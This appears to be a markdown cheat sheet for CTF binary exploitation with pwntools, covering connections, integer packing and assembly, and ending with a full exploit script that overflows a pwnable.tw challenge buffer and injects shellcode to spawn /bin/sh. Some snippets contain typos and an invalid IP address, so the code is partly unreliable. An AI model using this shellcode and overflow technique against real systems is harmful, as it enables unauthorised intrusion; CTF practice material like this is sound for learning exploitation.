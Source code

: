 # Binary Exploitation

## [Pwntools](https://github.com/Gallopsled/pwntools)
A grab-bag of tools to make writing exploits for CTFs easy!

### Install
```
apt-get update
apt-get install python2.7 python-pip python-dev git libssl-dev libffi-dev build-essential
pip install --upgrade pip
pip install --upgrade pwntools
```

### Usage
Include in file:
```python
from pwn import *
``` 

#### [Making Connections](http://docs.pwntools.com/en/stable/tubes.html#module-pwnlib.tubes)
How to connect to sockets and over ssh:
##### [Netcat](http://docs.pwntools.com/en/stable/tubes/sockets.html#module-pwnlib.tubes.remote)
```python
connection = remote(host, port)

# Example:
r = remote('pwn.hsctf.com', 1234)
# Same as 'nc pwn.hsctf.com 1234'
```

##### [SSH](http://docs.pwntools.com/en/stable/tubes/ssh.html#module-pwnlib.tubes.ssh)
```python
session = ssh(username, host, password=passwd)

# Example:
s = ssh('bandit0', 'bandit.labs.overthewire.org', password='bandit0')
# Same as 'ssh bandit@bandit.labs.overthewire.org'
```


#### [Interacting with Processes](http://docs.pwntools.com/en/stable/tubes/processes.html#module-pwnlib.tubes.process)
Now that we've connected to the host, how do we interact with it?
#### Interacting with a remote
```python
r = remote('12.123.45.324', 666) # Connect
r.recvline()			 # Receive next line from remote
r.send("test\r\n")               # Send to remote
r.interactive()                  # Manually interact with remote
...
r.close()			 # Close connection
```

#### Interacting with a process
```python
# Connect over ssh to host
s = ssh('bandit0', 'bandit.labs.overthewire.org', password='bandit0')

sh = s.process('/bin/sh')	  # Run shell
# or s.run('sh')

sh.sendline('echo Hello, world!') # Send to shell, appends newline
sh.recvline(timeout=5)	          # Receive line to shell, returns after nothing received for 5 seconds
sh.interactive()		  # Manually interact with shell
...
s.close()                         # Close ssh connection
```


#### [Setting Target Architecture and OS](http://docs.pwntools.com/en/stable/intro.html#setting-the-target-architecture-and-os)
You can set the global context so that other functions (such as p32 and asm) default to the correct endianess and architecture:
```python
context.arch      = 'i386'
context.os        = 'linux'
context.endian    = 'little'
context.word_size = 32
contex.log_level = 'debug' # More verbose output, very useful

# or

context(arch='arm', os='linux', endian='big', word_size=32, log_level='debug')
```


#### [Packing Integers](http://docs.pwntools.com/en/stable/util/packing.html#module-pwnlib.util.packing)
How to convert between integers as Python sees them and their representation as a sequence of bytes:
```python
# What you will use most often
win = p32(0xdeadbeef) # Packs 32-bit int, endianness and sign based on *context*
# Same as '\xef\xbe\xad\xde' on x86 or arm (little endian)

# Can use other bit sizes and specify endianess and sign
p8(0x54, endian='little', sign='signed'
p16(0x541A, endian='big', sign='signed')
p64(0x541A2B4E28BD541C, endian='big', sign='unsigned')

# Example:
buf = 'A'*20
win = p32(0xdeadbeef) 
payload = buf + win

r.sendline(payload)
r.interactive()
```


#### [Assembly and Disassembly](http://docs.pwntools.com/en/stable/asm.html#module-pwnlib.asm)
Converting from assembly instructions to byte representations and back:
```python
asm('mov eax, 0').encodde('hex') # 'b800000000'

disasm('6a0258cd80ebf9'.decode('hex'))
#   0:   6a 02                   push   0x2
#   2:   58                      pop    eax
#   3:   cd 80                   int    0x80
#   5:   eb f9                   jmp    0x0

# Example: 
shellcode = asm('\n'.join([   # Shell code that will run /bin/sh when executed
    'push %d' % u32('/sh\0'),
    'push %d' % u32('/bin'),
    'xor edx, edx',
    'xor ecx, ecx',
    'mov ebx, esp',
    'mov eax, 0xb',
    'int 0x80']))

payload = "A"*20  + p32(esp + 20) + shellcode 
r.send(payload)
r.interactive()
```

##### [Shellcode generation - You don't need to write your own shellcode!](http://docs.pwntools.com/en/stable/shellcraft.html#module-pwnlib.shellcraft)


### Example Program
```python
from pwn import *

def leak_esp(r):
	address_1 = p32(0x08048087)             # mov ecx, esp; mov dl, 0x14; mov bl, 1; mov al, 4; int 0x80; 
	payload = 'A'*20 + address_1
	print r.recvuntil('CTF:')
	r.send(payload)
	esp = u32(r.recv()[:4])
	print "Address of ESP: ", hex(esp)
	return esp

shellcode = asm('\n'.join([
    'push %d' % u32('/sh\0'),
    'push %d' % u32('/bin'),
    'xor edx, edx',
    'xor ecx, ecx',
    'mov ebx, esp',
    'mov eax, 0xb',
    'int 0x80',
]))

if __name__ == "__main__":
    context.arch = 'i386'
    r = remote('chall.pwnable.tw', 10000)
    #gdb.attach(r)
    esp = leak_esp(r)
    payload = "A"*20  + p32(esp + 20) + shellcode 
    r.send(payload)
    r.interactive()
```

### [Other Example Programs](https://github.com/Gallopsled/pwntools-write-ups)
